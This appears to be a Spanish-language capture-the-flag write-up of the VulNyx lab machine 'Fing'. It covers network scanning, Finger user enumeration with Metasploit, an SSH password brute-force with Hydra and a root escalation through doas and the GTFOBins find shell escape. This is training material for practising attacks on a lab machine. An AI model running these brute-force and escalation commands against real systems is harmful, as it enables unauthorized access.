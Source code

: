 ```yaml
---
Nombre de la máquina: Fing
Sistema Operativo: Linux
Enlace de descarga: https://vulnyx.com/
---
```


## Escaneo de equipos de la red.

Una vez descargada la máquina y levantada en nuestro virtualizador, la buscamos con la herramienta ARP-SCAN.
```
sudo arp-scan -I (NUESTRA INTERFAZ) --localnet
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/cc792507-e35e-4d23-a315-86612237ff7e)

Nos damos cuenta de que, después de la MAC, el escaneo con ARP-SCAN nos dice 'VMware'. Si aún no estamos seguros, podemos hacerle un ping para verificar la conexión y su TTL.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/eb6f7ab9-0473-4fb1-9018-bec0e316b4b3)


## Nmap.

Una vez que tenemos clara la IP objetivo, es momento de realizar el escaneo con Nmap.
```
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.1.105
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/01ebda0f-42f4-4834-b556-48c121ee84bf)

Como vemos, el escaneo de puertos nos indica que hay 3 puertos abiertos: 22/SSH, 79/Finger y 80/HTTP. Como es costumbre, lo primero es revisar la aplicación web que está corriendo en el puerto 80.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/821b6b76-6410-484a-8bf4-d7f39b1440db)

Se trata de un Apache por defecto, por lo que vamos a buscar directorios, en caso de haber...

## Fuzzing.

```
gobuster dir -u http://192.168.1.105 -w (DICCIONARIO)
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/790ff582-ba3a-441d-aec7-5b2f88f3c782)

Como vemos, la herramienta Gobuster no nos encuentra nada interesante, por lo que podríamos ponernos en la búsqueda de subdirectorios. Aunque primero vamos a revisar el servicio del puerto 79 que nos encontró el escaneo con Nmap: Finger.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/fccd9f50-b88e-4b60-a05f-2258fad848ce)
![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/0fd5efe5-b008-4e25-92f8-e0793d775a87)

Como vemos, nos dice que tenemos módulos en Metasploit para dicho servicio.

## Metasploit.

Ejecutamos Metasploit y buscamos un módulo con la palabra 'finger'.

```
msfconsole
```
```
search finger
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/9e9f5a1f-fb23-4c1d-9343-f23d5f2c4ccd)

Como observamos, con el módulo número 1 podemos listar usuarios, por lo que procedemos a configurarlo y ejecutarlo.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/f5cc909a-89c7-4939-8899-debd586ac97f)

Después de configurar el exploit, estableciendo la IP objetivo y el diccionario que utilizamos para el ataque con nombres de usuarios, nos indica que hay un usuario llamado 'adam'. Rápidamente, probamos sin éxito el módulo de ataques de fuerza bruta al protocolo SSH, por lo que continuamos con la herramienta Hydra.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/60bebce6-9903-4aaa-b9e2-0f8c40f9f670)

## Hydra.

Atacamos con Hydra indicando el usuario, el diccionario que utilizaremos y el protocolo que vamos a atacar.
```
sudo hydra -l adam -P DICCIONARIO ssh://192.168.1.105
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/f26d8fd3-dd24-4a9a-89d0-1f6884443d26)

Hydra descubre la contraseña "passion", permitiéndonos así conectar por SSH.

## Escalada de privilegios.

Una vez conectados por SSH con el usuario adam, lo primero que probamos son los comandos habituales o estándar:
```
sudo -l
```
```
find / -perm -4000 2</dev/null
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/7c596878-a73b-4511-af43-0c1473cb4b64)

Dentro de los binarios no encontramos nada destacable, excepto el binario DOAS. Por lo tanto, procedemos a descargar y utilizar la herramienta "linpeas.sh" para mayor seguridad.

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/0e16e493-2b1c-4da1-afdc-f02e4f300f31)

Como observamos en el resultado del escaneo con linpeas, nuevamente resalta el binario DOAS y el chequeo del archivo doas.conf. Básicamente, nos indica que podemos ejecutar el binario FIND como root. Por lo tanto, procedemos a buscar más información sobre DOAS.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/bcb0c51a-2be9-4aa6-894b-b2d00ceac5dc)

Finalmente, sabiendo que podemos ejecutar FIND como root, vamos a https://gtfobins.github.io/#find para explorar las opciones que tenemos para escalar privilegios con dicho binario.

```
find . -exec /bin/sh \; -quit
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/6f16b0dd-cd6c-42ca-8299-3076417ea9db)

Colocamos el comando encontrado en GTFObins, especificando que lo ejecutaremos con el comando DOAS y utilizando el usuario ROOT.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/bde0fc3d-b6b8-4e4f-a3cd-3505afd80fef)

Y como podemos observar, ahora somos el usuario root.

## Flags. 
![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/640e0005-326b-46a8-b44b-3875fe2b22e0)
